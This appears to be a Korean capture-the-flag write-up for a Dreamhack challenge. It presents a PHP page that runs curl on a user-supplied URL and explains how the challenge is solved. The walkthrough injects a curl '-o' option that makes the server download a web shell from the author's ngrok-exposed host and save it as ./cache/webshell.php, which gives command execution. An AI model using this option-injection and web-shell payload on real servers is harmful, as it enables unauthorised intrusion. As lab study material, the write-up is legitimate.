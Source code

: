 ## 코드

```php
<?php
    if(isset($_GET['url'])){
        $url = $_GET['url'];
        if(strpos($url, 'http') !== 0 ){
            die('http only !');
        }else{
            $result = shell_exec('curl '. escapeshellcmd($_GET['url']));
            $cache_file = './cache/'.md5($url);
            file_put_contents($cache_file, $result);
            echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
            echo '<pre>'. htmlentities($result) .'</pre>';
            return;
        }
    } else {}
?>
```

## 풀이

입력한 주소에 대해 curl 명령어를 수행하여 결과를 ./cache/{md5} 로 저장하는 코드
내가 입력한 임의 주소에 대해 curl 명령어를 수행하게 되는데,
테스트를 위해 https://google.com을 입력하면 해당 페이지를 GET 해오는 것을 알 수 있다.
이때 escapeshellcmd()를 통해 ;와 같은 문자를 필터링하는데,
escapeshellarg()를 필터링하지 않으므로 -와 같은 옵션 적용이 가능하다. 초반에는 이 부분을 놓치고 진행했었다.

일단 파일을 가져오는 기능이 있기 때문에 이걸 활용해서 웹쉘을 올리면 되겠다고 생각했다.
Github의 raw 파일 기능 및 웹서비스 활용 등 여러 방법이 있을 것이며,
본인은 ngrok + python3 -m http.server 를 활용하여 로컬 PC를 서버로 활용했다.
이 결과 webshell.php를 가져가게끔 하는 것은 성공했는데, cache/{md5} 로 된 파일이다보니 php 확장자가 없어서 명령어 수행이 전혀 되지 않았다.(웹쉘인데 아무것도 안나옴..)
그래서 옵션을 통해 결과를 .php 파일로 저장해야겠다고 생각했고,

```bash
https://000.ngrok.io/webshell.php -o ./cache/webshell.php
```

이런 식으로 페이로드를 작성했다.
그리고 host1.dreamhack.io/cache/webshell.php 로 들어가니 정상적으로 웹쉘이 존재했으며,
명령어 입력 및 실행이 되었다.